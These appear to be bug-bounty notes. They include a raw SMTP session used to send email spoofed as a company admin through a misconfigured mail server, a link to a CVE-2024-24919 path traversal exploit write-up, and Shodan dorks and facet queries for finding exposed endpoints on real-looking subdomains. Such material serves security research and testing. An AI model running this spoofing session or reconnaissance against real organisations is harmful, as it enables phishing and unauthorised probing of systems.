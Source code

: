 1. Created an Email under company.com
2. It will gave me a Email like somthing@in.company.com
3. i had to set this email in my email provider to forward my incoming Email to this Email.

Now when i send email to milad@mycompany.com My email provider will forward it to somthing@in.company.com and then i will see what i recive in APP.

I used somthing@in.company.com email to send me from admin using SMTP misconfiguration.The Final Command was this


```http
EHLO X  
MAIL FROM:<admin_bugbounty@company.com>  
RCPT TO:<somthing@in.company.com>  
DATA  
Subject: Test Email  
From: admin_bugbounty@company.com  
To: somthing@in.company.com  
This is a test email for PROOF OF CONCEPT .  
.  
QUIT
```



[How to exploit CVE-2024–24919 path traversal | by JEETPAL | Jun, 2024 | Medium](https://medium.com/@jeetpal2007/how-to-exploit-cve-2024-24919-path-traversal-5493c50d2581)

---

**👽 Shodan Endpoint Recon**

#shodan_facet_Analysis 

_**Favicon hash generator —Get the flavicon hash of a website for shodan hunting**_

https://favicon-hash.kmsec.uk/  

Now I am picking the subdomain `sit.urs.earthdata.*.*,` and now we will find more hosts associated with this using shodan.

Go to [shodan.io](https://www.shodan.io/) and execute the following dork


```makefile
hostname:sub3.sub2.sub1.domain.tld
```

![None](https://miro.medium.com/v2/resize:fit:700/1*KF1mqvq1XH1atC5VdOWUEw.png)


Out of the many results, pay more attention to juicy endpoints like `cmr-dashboard.*.*.*`

**🗃️ Shodan Facet Analysis Demo**


```bash
https://www.shodan.io/search/facet?query=hostname%3Asub.domain.tld&facet=ssl.cert.subject.cn
```

![None](https://miro.medium.com/v2/resize:fit:700/1*xdxabCBjSR6LtZxLq_amLQ.png)
